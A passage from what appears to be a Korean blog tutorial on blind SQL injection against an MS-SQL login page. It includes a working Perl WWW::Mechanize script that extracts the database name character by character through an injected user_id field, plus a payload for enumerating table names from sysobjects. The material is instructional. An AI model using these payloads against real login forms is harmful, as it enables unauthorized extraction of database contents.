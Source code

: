     print "=====DB_NAME====\n";

    my @db_name;
    my $i = 1;
    my $flag;
    while (1) {
        local $| = 1;
        $flag = 0;
        for my $char ( "", 'a' .. 'z', 0 .. 9, '_' ) {
            $mech->get('http://172.168.19.133/member/member_login.asp');
            $mech->submit_form(
                form_name => 'form',
                fields    => {
                    user_id => "mana' and substring(DB_NAME(),$i,1)='$char'--",
                    user_pw => 'blah'
                }
            );

            if ( $n eq "" && $mech->content !~ /alert/ ) {
                $mech->get('http://172.168.19.133/member/member_logout.asp');
                $flag = 1;
                last;
            }

            unless ( $mech->content =~ /alert/ ) {
                print $n;
                push @db_name, $char;
                $mech->get('http://172.168.19.133/member/member_logout.asp');

                $i++;
                last;
            }
        }

        last if $flag;
    }

로그인 성공시 메인페이지로 리다이렉트 되며, 로그인 실패시 실패에 관련된 경고가 뜨도록 했습니다.
편의상 [WWW::Mechanize 모듈][cpan-www-mechanize]을 사용하였지만 HTTP 트래픽을 보낼수 있다면 어떤 모듈이라도 상관없습니다.
해당 코드를 실행시키면 데이터베이스 이름을 얻어 올 수 있겠죠?


테이블 이름 찾기
-----------------

기본적으로 MS-SQL에서는 모든 테이블의 정보가 `sysobjects` 테이블에 있습니다.
데이터베이스 이름을 알아낸 것 처럼 테이블 이름을 알아내는 코드를 만들어보죠.

    #!sql
    strSQL="select * from member where user_id='mana' and substring((select top 1 name from sysobjects where xtype='U'),1,1)='a'--' and user_pw='blah'"

`sysobjects` 테이블에서 `xtype`이 `'U'`(사용자 정의 테이블)인 테이블을 대상으로
출력되어지는 가장 첫 번째 테이블의 이름을 `substring`함수를 이용해
첫 번째 문자부터 한 개의 문자를 `'a'`와 비교하는 코드입니다.
마찬가지로 패턴을 뽑아보면 다음처럼 표현할 수 있습니다.


[img-1]:          2015-12-17-1.png
[img-1-resize]:   2015-12-17-1_r.png
[cpan-lwp]:                 https://metacpan.org/pod/LWP
[cpan-www-mechanize]:       https://metacpan.org/pod/WWW::Mechanize
[cpan]:                     http://www.cpan.org/
[home-perlbrew]:            http://perlbrew.pl/
[twitter-vohrmana]:         http://twitter.com/#!/vohrmana
[wiki-sql-injection-blind]: https://en.wikipedia.org/wiki/SQL_injection#Blind_SQL_injection
[wiki-sql-injection]:       https://en.wikipedia.org/wiki/SQL_injection